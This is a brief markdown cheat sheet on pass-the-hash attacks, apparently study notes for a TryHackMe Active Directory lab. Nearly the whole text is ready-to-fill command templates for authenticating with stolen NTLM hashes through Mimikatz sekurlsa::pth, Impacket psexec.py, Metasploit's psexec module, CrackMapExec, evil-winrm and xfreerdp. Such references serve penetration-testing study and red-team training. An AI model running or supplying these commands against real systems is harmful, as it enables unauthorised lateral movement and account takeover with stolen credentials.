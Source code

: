 #cme #mimikatz #msf #evil-winrm #xfreerdp 
# Pass The Hash
- As [NetNTLM](../AD%20Concepts/NetNTLM.md) is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [Mimikatz](../../Cheatsheet/Mimikatz.md) for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```